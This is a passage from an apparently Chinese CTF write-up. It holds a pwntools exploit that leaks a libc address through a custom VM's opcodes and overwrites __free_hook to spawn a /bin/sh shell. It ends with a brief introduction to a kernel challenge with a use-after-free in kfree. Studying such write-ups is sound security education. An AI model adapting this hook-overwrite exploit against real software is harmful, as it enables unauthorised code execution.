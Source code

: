 ```
        malloc_got = start + 0x290c
        opcode = chr(0x80) + chr(3) + p32(malloc_got) # MOV R3 mallocgot
        opcode += chr(0x53) + chr(0xff) # putchar R3
        opcode += chr(0x80) + chr(3) + p32(malloc_got + 1) # MOV R3 mallocgot + 1
        opcode += chr(0x53) + chr(0xff) # putchar R3
        opcode += chr(0x80) + chr(3) + p32(malloc_got + 2) # MOV R3 mallocgot + 2
        opcode += chr(0x53) + chr(0xff) # putchar R3
        opcode += chr(0x80) + chr(3) + p32(malloc_got + 3) # MOV R3 mallocgot + 3
        opcode += chr(0x53) + chr(0xff) # putchar R3
        opcode += chr(0x99)
        sa(">>> ","1")
        #raw_input()
        r.sendline(opcode)

        sa(">>> ","2")
        print r.recv()
        malloc_addr = u32(r.recv(1) + r.recv(1) + r.recv(1) + r.recv(1))
        log.success("[*] malloc_addr:0x%x"%malloc_addr);
        libc_addr = malloc_addr - 0x70f00
        log.success("[*] libc_addr:0x%x"%libc_addr);

        free_hook =  0x1b38b0 + libc_addr

        opcode = chr(0x80) + chr(3) + p32(free_hook)
        opcode += chr(0x54) + chr(0xff)
        opcode += chr(0x80) + chr(3) + p32(free_hook + 1)
        opcode += chr(0x54) + chr(0xff)
        opcode += chr(0x80) + chr(3) + p32(free_hook + 2)
        opcode += chr(0x54) + chr(0xff)
        opcode += chr(0x80) + chr(3) + p32(free_hook + 3)
        opcode += chr(0x54) + chr(0xff)
        opcode += chr(0x80) + chr(0) + p32(u32("/bin"))
        opcode += chr(0x80) + chr(1) + p32(u32("/sh\x00"))
        opcode += chr(0x99)

        sa(">>> ","1")
        r.sendline(opcode)

        sa(">>> ","2")
        r.send(p32(libc_addr + 0x3ada0))

        r.interactive()
        #print r.recv().encode("hex")
else:
        exit(0)
```

# Kernoob

一个内核pwn,可以看到有一个基本堆题的功能,但是限制了size,kfree存在一个UAF,但是大小不够cred的
